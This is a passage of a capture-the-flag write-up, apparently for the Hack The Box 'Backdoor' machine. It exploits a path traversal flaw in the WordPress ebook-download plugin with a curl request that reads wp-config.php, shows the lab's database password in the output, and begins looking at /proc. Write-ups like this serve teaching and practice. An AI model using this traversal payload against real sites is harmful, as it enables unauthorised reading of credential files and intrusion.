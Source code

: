 

# Shell as `user`

### Exploit "ebook-download"

Given this version 1.1, I googled to find if there's any vulnerability, and found one "Path Traversal" vulnerability and its exploit from [here](https://www.exploit-db.com/exploits/39575).

According to the explanation, I can read whatever files on the server like the following :

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php

...SNIP...

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

...SNIP...
```

### Read command lines from `/proc`

Within the "File Traversal" vulnerability, one of the field which is valuable to read is `/proc` directory.
There are directories with process ID numbers in it.

```bash
┌──(kali㉿kali)-[~/htb/backdoor]
└─$ ls /proc                               
1        1396    1695     1846018  235   267     37   69      90
100      14      17       1847130  236   268     38   7       91
1038     1407    1707     1848840  237   269     39   70      92
1039     1411    1715     1849622  238   270     4    71      93
104      1415    1716     19       239   271     40   72      94
...SNIP...
```

